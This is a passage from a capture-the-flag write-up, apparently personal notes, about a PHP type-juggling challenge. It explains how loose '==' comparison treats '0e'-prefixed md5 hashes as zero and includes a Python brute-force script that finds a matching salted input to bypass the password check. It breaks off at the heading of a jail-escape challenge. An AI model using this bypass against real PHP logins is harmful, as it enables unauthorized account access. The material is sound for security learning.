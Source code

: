 #### Analysis

The aim is to crack the md5 given salt value and hash value . 

From [1] I know that there is a **"php type juggling bug"** . 

> In php, loose comparison `==` will do type juggling . 
>
> 1) When comparing a string to a number, PHP will attempt to convert the string to a number then perform a numeric comparison.
>
> 2)  If PHP decides that both operands look like numbers, even if they are actually strings, it will convert them both and perform a numeric comparison.

Here, `md5` return a string, but note that `$password_hash` is a string of format `0e+nums` . So if we can find a string s satisfy : `md5(s+salt)` is also "0e+nums", then php will compare them as numbers, which are all 0 



Exploit code[2]:

```python
from itertools import product
import hashlib # Import the modules

alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
for x in range(0, 10): # Iterate through the lengths
    # For each combination in this alphabet with this length
        for combo in product(alphabet, repeat=x): 
                result = hashlib.md5("f789bbc328a3d1a3" + ''.join(combo)).hexdigest() 
                if result.startswith("0e") and result[2:].isdigit(): 
                        print "f789bbc328a3d1a3" + ''.join(combo) 
                        exit(0)
                else:
                        pass #If not pass
```



#### REF

1. [writeup](https://b4d.sablun.org/blog/2020-02-25-247ctf-com-web-compare-the-pair/)
2. [writeup2](https://hackmd.io/@Chivato/rkj-Y1GVI)



## Misc

### 1 .The text editor jail

#### Instruction

We didn't have time to setup and test a proper jail, so this text editor will have to do for now. Can you break free?

#### Analysis
